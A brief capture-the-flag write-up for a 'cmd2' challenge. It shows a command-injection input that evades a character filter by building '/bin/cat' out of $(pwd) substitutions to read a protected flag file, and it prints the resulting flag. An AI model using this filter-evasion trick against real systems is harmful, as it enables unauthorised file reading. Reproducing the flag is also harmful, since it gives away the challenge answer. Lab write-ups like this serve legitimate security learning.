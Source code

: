 ```yaml
---
layout: default
title: cmd2
---
```


# cmd2 Solution

this is more complicated level.
here we use this input: 
```
./cmd2 "cd ..; cd ..; pwd; \$(pwd)bin\$(pwd)cat \$(pwd)home\$(pwd)cmd2\$(pwd)fl*"
```

first, we cd into `/`.
then, we execute this command: `/bin/cat /home/cmd2/fl*`, by taking each time our current directory with `pwd`, which gives us `/`.

by this way we can build our command.

![image](./images/cmd2.png)

**Flag:** ***`FuN_w1th_5h3ll_v4riabl3s_haha`***
